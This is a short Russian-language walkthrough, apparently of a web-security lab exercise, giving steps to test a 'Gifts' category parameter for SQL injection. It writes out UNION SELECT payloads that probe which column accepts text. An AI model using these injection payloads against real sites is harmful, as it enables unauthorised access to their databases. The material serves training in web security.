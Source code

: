 1) Переходим на сайт задания в раздел Gifts
2) Снова меняем запрос, но на этот раз вместо одного из NULL пишем необходимую строку:
category=Gifts'+UNION+SELECT+'a',NULL,NULL--
3) Ошибка сервера - меняем следующий NULL:
category=Gifts'+UNION+SELECT+NULL,'a',NULL--